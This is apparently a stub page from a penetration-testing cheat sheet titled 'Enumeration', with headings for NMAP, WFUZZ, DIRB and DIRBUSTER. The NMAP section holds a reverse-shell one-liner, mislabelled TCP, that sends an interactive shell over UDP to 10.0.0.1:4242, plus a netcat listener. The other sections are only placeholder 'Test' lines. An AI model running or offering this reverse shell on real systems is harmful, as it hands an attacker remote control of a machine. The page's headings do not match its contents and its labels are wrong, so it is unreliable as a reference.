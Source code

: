 # Enumeration

## Summary
* [NMAP](#NMAP)
* [WFUZZ](#WFUZZ)
* [DIRB](#DIRB)
* [DIRBU](#DISRBUSTER)

 

### NMAP

```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
Test
Test
Test
Test
Test
Test
Test
Test
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```
